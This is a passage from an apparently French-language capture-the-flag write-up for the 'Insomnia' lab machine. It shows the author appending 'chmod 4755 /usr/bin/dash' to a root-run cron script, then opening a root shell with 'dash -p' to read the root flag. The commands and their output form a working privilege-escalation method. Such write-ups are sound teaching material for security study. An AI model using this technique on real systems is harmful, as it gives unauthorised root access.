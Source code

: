 Il est donc exécuté toutes les minutes. On va faire en sorte qu'il mette le droit setuid sur `/usr/bin/dash` :

```bash
julia@insomnia:/var/cron$ ls -al /usr/bin/dash
-rwxr-xr-x 1 root root 121464 Jan 17  2019 /usr/bin/dash
julia@insomnia:/var/cron$ echo "chmod 4755 /usr/bin/dash" >> /var/cron/check.sh
julia@insomnia:/var/cron$ ls -al /usr/bin/dash
-rwsr-xr-x 1 root root 121464 Jan 17  2019 /usr/bin/dash
julia@insomnia:/var/cron$ /usr/bin/dash -p
# cd /root
# ls
root.txt
# cat root.txt

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```

*Publié le 6 décembre 2022*

